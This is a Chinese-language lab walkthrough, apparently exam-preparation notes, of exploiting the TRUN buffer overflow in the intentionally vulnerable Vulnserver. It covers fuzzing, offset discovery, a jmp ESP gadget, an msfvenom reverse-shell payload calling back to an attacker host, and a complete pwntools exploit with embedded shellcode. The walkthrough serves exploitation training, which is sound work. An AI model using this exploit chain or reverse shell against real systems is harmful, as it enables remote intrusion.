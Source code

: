 # Vulnserver (TRUN) Windows Overflow
## 事前準備
- Vulnserver
	- https://github.com/stephenbradshaw/vulnserver
	- 這邊我的環境是開在 `Microsoft Windows 10 專業版 10.0.19042` (沒有用 VM)
	- 關閉 Windows Defender
- Immunity Debugger
	- 安裝 Moma 的 Script
		- 把 `moma.py` 直接丟進 `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands` 即可
- Kali
	- 安裝 pwntools
	- 其他都有內建

## 簡介指令
- cyclic
	- pwntools 功能 (我覺得用起來比較順手)
		- `pwn cyclic`
			- 或是在 python 裡面的 `pwn.cyclic()`
			- 可以產出 cyclic 字串
			- ![](https://i.imgur.com/OzecgUw.png)
		- `pwn cyclic -l {Pattern in hex}`
			- 隨便取 4 個值，都能知道他 offset 第幾格
			- ![](https://i.imgur.com/ILy486S.png)
	- msf 功能
		- `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l {length}`
			- 產出長度為 length 的字串
		- `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l {length} -q {pattern}`
			- ![](https://i.imgur.com/8MlUt3J.png)
- Fuzz 腳本
	- `generic_send_tcp {IP} {Port} {腳本.spk} 0 0`
	```C
	s_readline();
	s_string("{command}"); // 開頭要輸入的東西
	s_string_variable("0");
	```

## 觀察
- 第一步，nc 上去觀察
	- ![](https://i.imgur.com/N3hbhOM.png)
- 這次要打ㄉ洞是 TRUN
	- 基本指令是 `TRUN {something}`
	- ![](https://i.imgur.com/hx8bRe7.png)
## Fuzz
- 所以寫 TRUN 的 generic_send_tcp 的 Script `trun1.spk`
```C
s_readline();
s_string("TRUN "); // 開頭要輸入的東西
s_string_variable("0");
```
- 執行
	- `generic_send_tcp 192.168.1.102 9999 trun1.spk 0 0`
	- ![](https://i.imgur.com/KOACrib.png)
- Run 下去隔了幾秒鐘， Debugger 就跳卡住了
	- ![](https://i.imgur.com/FlAKrgn.png)
	- 下面有寫是 `0x41414141` 位子錯誤
	- 然後可以發現 `EIP` 也被變成了 `0x41414141`
	- `0x41` 是 `A`
- 觀察 EAX 
	- 發現 Command 的開頭是 `TRUN /.:/AAA....`
	- 只是我們不知道 Fuzz 有戳幾個 `A`
	- 但確定他的開頭是 `TRUN /.:/`
## Cyclic 找 Offset
- 用 cyclic 找 offset
	```python
	from pwn import *

	r = remote("192.168.1.102",9999)
	command = b"TRUN /.:/"
	cyclic_code = cyclic()

	payload = command + cyclic_code

	r.sendline(payload)
	```
- 觀察 EIP
	- ![](https://i.imgur.com/nOxDvWA.png)
	- 值為 0x61616275
- 輸入 `pwn cyclic -l 0x61616275 `
	- ![](https://i.imgur.com/QnQ0l5m.png)
	- 就能知道 offset 是 `2003`
- 測試 Offset 是否正確
	- 這邊用 `0xdeadbeef` 進行測試
	```python
	from pwn import *

	r = remote("192.168.1.102",9999)
	command = b"TRUN /.:/"
	padding = b'a'*2003
	meow = p32(0xdeadbeef)

	payload = command + padding + meow

	r.sendline(payload)
	```
	- 發現可以成功蓋到 EIP 了
	- ![](https://i.imgur.com/6eLQLUz.png)
## 觀察蓋完 EIP 後
- 觀察蓋完 EIP 後的東東
	```python
	from pwn import *

	r = remote("192.168.1.102",9999)
	command = b"TRUN /.:/"
	padding = b'a'*2003
	new_eip = p32(0xdeadbeef)
	padding2 = cyclic()

	payload = command + padding + new_eip + padding2

	r.sendline(payload)
	```
- 一樣用 cyclic
	- ![](https://i.imgur.com/tJc4O2t.png)
	- 會發現 ESP 指向 `aaaa`
	- 也就是 `0x61616161`
	- ![](https://i.imgur.com/aVw8GwN.png)
	- 就是說，我們的 address 後面直接接的東西會被 EIP 所指到
## 找 Shell Code 跳躍點
- 理論上我們在目前寫的後面 shell_code
	- 並且把 new_eip 設定為 `jmp ESP` 即可
- 在 immunity debugger 下面輸入
	- `!mona jmp -r esp` 可以找到 `jmp ESP` 的指令
		- ![](https://i.imgur.com/dgL01fP.png)
		- 第一個在 `0x625011af`
- 所以我們把 EIP 蓋成這個，他接下來就會跳去 EIP 指到的 Memory
	- 並且執行我們的 Shell Code
## 生 Reverse shell
- 接著要想辦法生成 reverse shell 的 shell code
- 這邊可以直接用 `msfvenom` 處理
	- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.106 LPORT=7877 EXITFUNC=thread -f c -a x86 -b "\x00"`
	- ![](https://i.imgur.com/Ebkz3zb.png)
- 整理一下貼到 Python
- 再在前面增加幾個 nop (0x90)做 padding
	- 避免直接跳出現一些問題
	- Padding 長度以 32bit 的倍數為原則
	- `padding2 = p32(0x90909090) * 10`
## 完整 Exploit
```python
from pwn import *

r = remote("192.168.1.102",9999)
command = b"TRUN /.:/"
padding = b'a'*2003
new_eip = p32(0x625011af)
padding2 = p32(0x90909090) * 10
shellcode = (b"\xbe\xb0\x17\xe4\xba\xda\xcc\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
b"\x52\x31\x70\x12\x03\x70\x12\x83\x70\x13\x06\x4f\x8c\xf4\x44"
b"\xb0\x6c\x05\x29\x38\x89\x34\x69\x5e\xda\x67\x59\x14\x8e\x8b"
b"\x12\x78\x3a\x1f\x56\x55\x4d\xa8\xdd\x83\x60\x29\x4d\xf7\xe3"
b"\xa9\x8c\x24\xc3\x90\x5e\x39\x02\xd4\x83\xb0\x56\x8d\xc8\x67"
b"\x46\xba\x85\xbb\xed\xf0\x08\xbc\x12\x40\x2a\xed\x85\xda\x75"
b"\x2d\x24\x0e\x0e\x64\x3e\x53\x2b\x3e\xb5\xa7\xc7\xc1\x1f\xf6"
b"\x28\x6d\x5e\x36\xdb\x6f\xa7\xf1\x04\x1a\xd1\x01\xb8\x1d\x26"
b"\x7b\x66\xab\xbc\xdb\xed\x0b\x18\xdd\x22\xcd\xeb\xd1\x8f\x99"
b"\xb3\xf5\x0e\x4d\xc8\x02\x9a\x70\x1e\x83\xd8\x56\xba\xcf\xbb"
b"\xf7\x9b\xb5\x6a\x07\xfb\x15\xd2\xad\x70\xbb\x07\xdc\xdb\xd4"
b"\xe4\xed\xe3\x24\x63\x65\x90\x16\x2c\xdd\x3e\x1b\xa5\xfb\xb9"
b"\x5c\x9c\xbc\x55\xa3\x1f\xbd\x7c\x60\x4b\xed\x16\x41\xf4\x66"
b"\xe6\x6e\x21\x28\xb6\xc0\x9a\x89\x66\xa1\x4a\x62\x6c\x2e\xb4"
b"\x92\x8f\xe4\xdd\x39\x6a\x6f\x22\x15\x75\x05\xca\x64\x75\xc7"
b"\xcf\xe0\x93\x9d\xdf\xa4\x0c\x0a\x79\xed\xc6\xab\x86\x3b\xa3"
b"\xec\x0d\xc8\x54\xa2\xe5\xa5\x46\x53\x06\xf0\x34\xf2\x19\x2e"
b"\x50\x98\x88\xb5\xa0\xd7\xb0\x61\xf7\xb0\x07\x78\x9d\x2c\x31"
b"\xd2\x83\xac\xa7\x1d\x07\x6b\x14\xa3\x86\xfe\x20\x87\x98\xc6"
b"\xa9\x83\xcc\x96\xff\x5d\xba\x50\x56\x2c\x14\x0b\x05\xe6\xf0"
b"\xca\x65\x39\x86\xd2\xa3\xcf\x66\x62\x1a\x96\x99\x4b\xca\x1e"
b"\xe2\xb1\x6a\xe0\x39\x72\x8a\x03\xeb\x8f\x23\x9a\x7e\x32\x2e"
b"\x1d\x55\x71\x57\x9e\x5f\x0a\xac\xbe\x2a\x0f\xe8\x78\xc7\x7d"
b"\x61\xed\xe7\xd2\x82\x24")

payload = command + padding + new_eip + padding2 + shellcode

r.sendline(payload)
```
- 本地端開 nc 接 Shell
	- ![](https://i.imgur.com/DFp6IBy.png)
- 成功!!

## 參考資料
- https://www.hackercat.org/oscp/buffer-overflows-made-easy-notes-oscp-preparation
- https://www.youtube.com/watch?v=o-1qYzAqM_Q
